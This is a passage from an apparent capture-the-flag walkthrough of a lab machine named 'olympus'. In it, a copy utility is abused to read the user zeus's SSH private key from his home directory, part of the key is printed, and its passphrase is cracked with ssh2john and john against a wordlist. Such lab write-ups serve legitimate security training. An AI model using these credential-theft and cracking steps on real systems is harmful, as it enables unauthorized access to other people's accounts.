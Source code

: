 So it has something to do with copying files. Let's test it out.

```
www-data@olympus:/tmp$ /usr/bin/cputils
  ____ ____        _   _ _     
 / ___|  _ \ _   _| |_(_) |___ 
| |   | |_) | | | | __| | / __|
| |___|  __/| |_| | |_| | \__ \
 \____|_|    \__,_|\__|_|_|___/
                               
Enter the Name of Source File: /home/zeus/.ssh/id_rsa

Enter the Name of Target File: /tmp/id_rsa

File copied successfully.
```

`cat /tmp/id_rsa`

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABALr+COV2
NabdkfRp238WfMAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQChujddUX2i
```

Well, that was easy! Let's get that key created on our own system and ssh over as **zeus**.

Trying to connect over reveals that there is a password associated with the private key:

```
zeus@10.10.204.46's password:
```

Let's see if we can crack it.

`ssh2john id_rsa > hash`

`john hash --wordlist=rockyou.txt`

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>        (id_rsa)     
1g 0:00:00:37 DONE (2022-07-23 11:27) 0.02691g/s 40.47p/s 40.47c/s 40.47C/s maurice..bunny
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Alright, now let's try and ssh back over again.

<br>

## System Access - Zeus
